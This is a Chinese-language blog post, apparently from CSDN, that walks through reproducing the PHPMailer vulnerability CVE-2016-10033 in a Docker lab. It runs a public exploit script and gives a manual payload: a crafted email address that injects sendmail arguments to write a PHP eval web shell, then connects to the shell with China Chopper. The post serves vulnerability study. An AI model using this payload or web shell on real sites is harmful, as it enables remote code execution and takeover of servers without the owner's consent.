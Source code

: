 **目录**

[漏洞复现](#t0 "漏洞复现")

[一：直接使用漏洞利用脚本进行攻击](#t1 "一：直接使用漏洞利用脚本进行攻击")

[二：手动进行攻击](#t2 "二：手动进行攻击")

* * *

> PHPMailer是一个基于PHP语言的邮件发送组件，被广泛运用于诸如[WordPress](https://so.csdn.net/so/search?q=WordPress&spm=1001.2101.3001.7020)、Drupal、1CRM、SugarCRM、Yii、Joomla等用户量巨大的应用与框架中。

CVE-2016-10033是PHPMailer中存在的高危漏洞，这个高危漏洞是由 class.phpmailer.php 没有正确处理用户的请[求导](https://so.csdn.net/so/search?q=%E6%B1%82%E5%AF%BC&spm=1001.2101.3001.7020)致的攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

**漏洞利用条件：**

*   PHP 没有开启 safe\_mode（默认）

**影响版本**：小于 5.2.18 版本

漏洞复现
----

我们这里使用docker搭建复现环境

```
docker search cve-2016-10033      
docker pull vulnerables/cve-2016-10033      
docker run -d -P --name phpmailer vulnerables/cve-2016-10033
```


![](https://img-blog.csdnimg.cn/20200405195447592.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200405195625984.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  
访问搭建好的漏洞环境

![](https://img-blog.csdnimg.cn/20200405195805369.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 一：直接使用漏洞利用脚本进行攻击

```
git clone https://github.com/opsxcq/exploit-CVE-2016-10033.git      
cd exploit-CVE-2016-10033/      
./exploit.sh 地址:端口
```


![](https://img-blog.csdnimg.cn/2020040520073724.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 二：手动进行攻击

**手动攻击需要知道目标网站的绝对路径**

提交的数据如下

```
email：      
"aaa". -OQueueDirectory=/tmp/. -X/var/www/html/hack.php @aaa.com       
message：      
<?php @eval($_POST[hack]);?>
```


![](https://img-blog.csdnimg.cn/20200405202746484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

点击Send email，会在目标网站下生成 hack.php 文件。然后使用菜刀连接生成的 hack.php 文件即可。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)